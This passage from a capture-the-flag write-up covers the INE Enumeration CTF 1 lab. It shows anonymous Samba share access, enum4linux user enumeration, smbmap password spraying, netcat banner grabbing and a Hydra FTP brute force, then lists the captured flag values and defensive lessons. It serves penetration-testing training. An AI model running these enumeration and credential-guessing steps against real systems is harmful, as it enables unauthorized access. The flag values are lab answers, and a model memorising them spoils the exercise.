| `smbclient //target.ine.local/pubfiles -N` | smbclient | Interactive anonymous share access | `-N` (no password prompt) |
| `enum4linux -a target.ine.local` | enum4linux | Comprehensive Samba enumeration | `-a` (all simple enumeration options: users, shares, RID cycling) |
| `for u in ...; do smbmap ...; done` | Bash / smbmap | Password spray SMB shares | `-H` (host), `-u` (user), `-p` (password), `-q` (quiet), `grep -E "READ\|WRITE"` |
| `smbclient //target.ine.local/josh -U josh` | smbclient | Access authenticated private share | `-U josh` (authenticate as user josh) |
| `nc -vn 192.211.73.3 5554` | Netcat | Banner grabbing on custom port 5554 | `-v` (verbose), `-n` (numeric IP) |
| `echo -e "..." > users2.txt` | Bash | Create targeted user dictionary | `-e` (enable backslash escapes for newlines) |
| `hydra -L users2.txt -P ... ftp://...:5554` | Hydra | Multi-threaded FTP brute-force | `-L` (user list), `-P` (password list), `ftp://...:5554` (protocol & port) |
| `ftp 192.211.73.3 5554` | FTP Client | Authenticated FTP file transfer | `192.211.73.3 5554` (target IP and custom port) |
| `ssh target.ine.local` | SSH Client | Trigger pre-login SSH banner | `target.ine.local` (target hostname) |

---

## 08. Findings and Discoveries

1. **Anonymous SMB Share (`pubfiles`)**: Samba configuration permitted unauthenticated read access to the `pubfiles` share, directly exposing `flag1.txt`.
2. **Samba User Enumeration via SID Cycling**: `enum4linux` successfully queried the Samba daemon via null session RPC, enumerating valid local user accounts (`josh`, `bob`, `nancy`, `alice`).
3. **Weak SMB User Credentials (`josh`)**: Password spraying against Samba identified that user `josh` used a weak dictionary password, compromising his private home share and exposing `flag2.txt`.
4. **Non-Standard FTP Service Exposure (Port 5554)**: Full port scanning revealed vsftpd running on port 5554 rather than standard port 21.
5. **Verbose Service Banner Leakage**: The FTP banner disclosed the usernames `ashley`, `alice`, and `amanda` alongside explicit notification that weak passwords were in use.
6. **Weak FTP Credentials (`alice`)**: Hydra cracked `alice`'s credentials against the custom FTP port in under four minutes, enabling file retrieval of `flag3.txt`.
7. **SSH Pre-Login Banner Exposure**: The SSH daemon displayed a pre-login legal banner containing `FLAG4`.

---

## 09. Flags Captured

All captured flags are formatted as MD5 hashes conforming to challenge parameters. Flags 1, 2, and 4 are fully verified character-for-character from terminal output; Flag 3 is confirmed downloaded via authenticated FTP and registered in the lab dashboard, but marked as partially visible due to vertical terminal clipping in screenshot evidence:

| Flag | Objective / Challenge Focus | Discovery Method & Tool | Captured Flag Value | Verification Source |
| :---: | :--- | :--- | :--- | :---: |
| **Flag 1** | Anonymous Samba share access | Bash loop & `smbclient -N //target.ine.local/pubfiles` | `FLAG1{79554810d40d4852b8d6698288a1e20c}` | Screenshot 05 (`05-smbclient-pubfiles-flag1.png`) |
| **Flag 2** | Compromised Samba user & private share | `enum4linux` + `smbmap` password spray & `smbclient` | `FLAG2{c2d8468af56244cfa869851174cf27de}` | Screenshot 08 (`08-smbmap-password-spray-flag2.png`) |
| **Flag 3** | Non-standard FTP enumeration & Hydra crack | `nc` banner grab, `hydra` crack, & authenticated FTP | Partially visible — full value not verified | Screenshot 12 (`12-ftp-alice-login-flag3.png`) & Lab Dashboard |
| **Flag 4** | Warning banner meant to deter users | `ssh target.ine.local` (pre-login banner) | `FLAG4{1ba9d242fa514e4cb4858bfc5f1fd969}` | Screenshot 13 (`13-ssh-banner-warning-flag4.png`) |

---

## 10. Security Observations

- **Security through Obscurity Fails**: Moving vsftpd to port 5554 provided zero defensive benefit against full-range port scans (`-p-`).
- **Verbose Banners Aid Attackers**: Custom service banners that name specific user accounts dramatically narrow the attack surface for password spraying.
- **Null Sessions & Anonymous Shares**: Allowing null sessions on SMB (`guest ok = yes`) enables attackers to map file structures without credentials.
- **Weak Password Hygiene**: Accounts using simple dictionary words allow automated brute-force attacks to succeed in seconds.

---

## 11. Lessons Learned

1. **Always Scan All 65,535 Ports**: High-value services frequently run on non-standard ports (e.g., FTP on 5554) that are completely missed by default top-1000 scans.
2. **Combine Tooling with Scripting**: Simple Bash loops combining `smbclient` or `smbmap` with wordlists rapidly identify accessible shares and validate credentials.
3. **Analyze Banner Data Carefully**: Banners often leak valid usernames, software versions, and configuration hints.
4. **Pre-Authentication Surfaces Matter**: Do not overlook pre-login notices; banners displayed before entering passwords can contain sensitive organizational information.

---

## 12. Conclusion

The **INE Assessment Methodologies: Enumeration CTF 1** lab demonstrates the critical role of methodical service enumeration across network daemons. By systematically combining full-port Nmap scanning, Samba share brute-forcing, RPC user enumeration via `enum4linux`, dictionary password spraying via `smbmap` and `hydra`, and banner interrogation across FTP and SSH, all challenge objectives were satisfied in the lab environment. Three flags are verified character-for-character from screenshot evidence, and Flag 3 is documented through verified credential cracking, FTP file transfer, and partial terminal display.

This walkthrough highlights that penetration testing success relies not on obscure exploits, but on comprehensive enumeration, disciplined observation of service responses, and connecting discovered clues across services.

